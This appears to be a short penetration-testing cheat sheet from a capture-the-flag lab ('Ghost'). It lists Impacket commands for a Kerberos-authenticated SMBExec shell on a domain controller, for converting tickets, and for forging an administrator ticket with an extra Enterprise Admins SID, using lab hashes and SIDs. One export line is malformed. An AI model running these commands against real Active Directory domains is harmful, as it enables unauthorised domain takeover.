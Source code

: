 

## SMBExec
```bash
impacket-smbexec -k -no-pass -dc-ip 10.10.11.24 CORP.GHOST.HTB/administrator@dc01.ghost.htb
```

## TicketConvertor
```bash
ticketConverter.py /PATH/ticket.kirbi ticket.ccache

export=KRB5CCNAME=/PATH/ticket.ccache
```

## Ticketer
```bash
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb administrator
```